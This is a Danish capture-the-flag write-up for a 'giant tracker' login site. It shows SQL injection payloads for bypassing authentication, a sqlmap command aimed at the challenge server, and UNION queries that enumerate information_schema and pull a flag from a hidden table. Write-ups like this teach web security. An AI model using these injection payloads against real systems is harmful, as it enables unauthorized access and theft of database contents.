 # Opgave

Jætterne er blevet avanceret, så vi skal have en mere systematisk tilgang til at finde dem.
Odin har fået nogen til at lave et jætte tracking system. Det er noget magi som får det til at virke, men er magi altid sikkert?

http://jættetracker.jul.fdca.dk:8080 

---

# Løsning

På hjemmesiden er der en login side, som skal bruge et navn og en kode.

I opgaven står der at der er magi som får det til at virke, hvilket får mig til at tænke at man skal lave sql injections.

Jeg prøver derfor Odin som navn og `' OR 1=1 -- -` som kode, men det giver fejlen "Magien fejlede"

Jeg prøver så `' OR 1=1 -- -` som både navn og kode og her kommer jeg igennem til en side hvor der står **Velkommen, thor** og et felt hvor jeg kan søge efter jætter.

Alt hvad jeg prøver på denne side giver fejlen "Du har ikke tilladelse til at søge!"

Efter lang tids forsøg med mere sql injection og forsøg på at manipulere cookien giver jeg op og går tilbage til login skærmen.

Da Odin har fået lavet systemet forventer jeg at navnet skal være Odin og vi så skal lave SQL injection på kode delen.

Jeg bruger sqlmap som er en application til at teste felter for sql injections og bruger denne kommando:

`sqlmap -u "http://20.240.212.83:8080" --data="navn=Odin&kode=vulln" --cookie="PHPSESSID=b1bbfdf8262ee4edaa2b5b47b5cd3b45" -p kode`

Herfra fik jeg denne SQL injection på kode: `vulln' UNION ALL SELECT 11,CONCAT(0x71786a7a71,0x78637a526f65665448485545636a4d54694156746d494165506967476a615352645a645763765948,0x71707a7671),11,11-- -`

Jeg er helt ærligt ikke helt sikker på hvorfor det virker, men nu har jeg adgang og kan søge i søgefeltet.

Jeg prøver igen med `' OR 1=1 -- -`, Hvor jeg nu kan se en tabel med to kolonner. En med navnet på jætter og en med deres lokation.

Jeg forventer at der hives data fra en anden tabel for at finde flaget.

Jeg forsøger derfor at finde navnet på alle tabeller i databasen med: `lol' UNION ALL SELECT NULL, NULL, GROUP_CONCAT(table_name) FROM information_schema.tables -- -`, som viser mig tabellerne **jaetter**, og **guddommelige_noter**, som ikke bare er standard tabeller.

**jaetter** er nok den tabel vi allerede kigger i så jeg prøver at at finde navnene på kolonnerne i tabellen **guddommelige_noter** med:  `lol' UNION ALL SELECT NULL, NULL, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'guddommelige_noter' -- -`

Herfra finder jeg kolonnenavnene **id**, **titel**, **tekst**.

Jeg prøver nu at kombinere denne tabel med den tabel vi allerde kigger i med: `lol' UNION ALL SELECT id, titel, tekst FROM guddommelige_noter -- -`

Her får jeg flaget **FDCA{N0rd1sk3_gud3r_sk4l_0gsaa_par4m4t3r1ze}**

---
